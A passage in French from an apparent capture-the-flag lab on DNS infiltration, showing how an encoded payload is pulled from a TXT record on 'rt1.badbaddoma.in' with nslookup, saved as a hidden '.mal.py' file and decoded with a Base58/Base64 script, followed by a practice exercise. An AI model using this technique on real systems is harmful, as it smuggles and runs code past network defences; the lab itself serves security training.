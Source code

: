 <img src="https://cdn.discordapp.com/attachments/798799811482353734/807297515518427197/infil.png"/>

Vous pouvez voir mon enregistrement TXT ci-dessous.

<img src="https://cdn.discordapp.com/attachments/807129623846584321/807138166867623956/1.PNG"/>


Fichiers utilisés pour cette démo

1. `nslookup`

Cela recherchera d'abord l'enregistrement TXT pour rt1.badbaddoma.in, puis obtiendra la valeur entre guillemets, et enfin, il enregistrera la valeur dans un fichier nommé '.mal.py'.

`nslookup -type=txt rt1.badbaddoma.in | grep Za | cut -d \" -f2 > .mal.py
`

2. `packetSimple.py` ( https://github.com/kleosdc/dns-exfil-infil )

Lorsque le code vous demande un 'Nom de fichier', entrez le nom de fichier '.mal.py'. C'est le fichier dans lequel nous avons enregistré la valeur encodée.

<img src="https://cdn.discordapp.com/attachments/807129623846584321/807140371967508500/2.PNG"/>


`python3 ~/packetySimple.py
`
`Filename: .mal.py
`
`[+] Reading from file...
`
`[+] Base58 decoded.
`
`[+] Base64 decoded.
`
`[+] Done, .mal.py is decoded.
`
### Infiltration DNS : Pratique

- Lisez le fichier TASK qui se trouve dans le dossier `~/challenges/infiltration/`.

- Vous pouvez utiliser la même commande que celle utilisée dans la partie Infiltration DNS - Exemple.
- Gardez à l'esprit que vous devrez ajuster la section « grep » et utiliser les caractères appropriés pour faire correspondre. Par exemple, si la valeur de texte de l'enregistrement TXT commence par « G6... », vous devrez utiliser « grep G6 ».

**Répondre aux questions ci-dessous**

Suivez les instructions du fichier TASK pour répondre à cette question.

Quelle est la sortie du fichier python exécuté
```
reponse
```

---
